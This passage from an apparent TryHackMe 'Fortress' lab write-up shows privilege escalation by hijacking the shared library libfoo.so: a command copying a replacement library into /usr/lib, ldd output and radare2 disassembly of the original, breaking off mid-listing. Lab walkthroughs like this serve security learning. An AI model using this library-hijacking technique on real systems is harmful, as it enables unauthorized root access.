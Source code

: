 ![fortress_JaxonPri-EscBinaryLocation](https://user-images.githubusercontent.com/85181215/133459925-ce02f9eb-3ec1-44b0-84f8-36c307bd42c2.png)

Now we can copy that binary in that location using the following command

```shell
$ cp /home/j4x0n/libfoo.so /usr/lib
```
After that we run that binary and they give us root

![fortressRoot](https://user-images.githubusercontent.com/85181215/133459047-8bcc9394-8858-4d44-98c8-90f5beb118eb.png)

----------------

Special Thank to [A3r1t](https://tryhackme.com/p/Amrit456852) for Helping in this Room. 


My Friend Amrit Detailed Pri-Esc Part


# Privilage Escalation

```shell-session
j4x0n@fortress:/opt$ ldd bt
        linux-vdso.so.1 =>  (0x00007ffc839f2000)
        libfoo.so => /usr/lib/libfoo.so (0x00007f1e638d1000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f1e632f4000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f1e636be000)
```

**libfoo.so** is a shared Library which we can hijack to gain root

***

#### Analysing libfoo.so

```shell-session
scp -i id_rsa j4x0n@10.10.87.105:/usr/lib/libfoo.so /home/kali/Documents/fortress 
```

Analysing it uing tool ==> `r2`

```shell-session
┌──(kali㉿kali)-[~/Documents/fortress]
└─$ r2 libfoo.so 
Warning: run r2 with -e io.cache=true to fix relocations in disassembly
[0x00001070]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[0x00001070]> afl
0x00001070    4 41   -> 34   entry0
0x00001125    1 89           sym.foo
0x00001030    1 6            sym.imp.puts
0x00001050    1 6            sym.imp.sleep
0x00001040    1 6            sym.imp.system
0x000010a0    4 57   -> 51   sym.register_tm_clones
0x000010e0    5 57   -> 50   sym.__do_global_dtors_aux
0x00001060    1 6            sym.imp.__cxa_finalize
0x00001120    1 5            entry.init0
0x00001180    1 9            sym._fini
0x00001000    3 23           sym._init
[0x00001070]> pdf @ sym.foo
┌ 89: sym.foo ();
│           0x00001125      55             push rbp
│           0x00001126      4889e5         mov rbp, rsp
```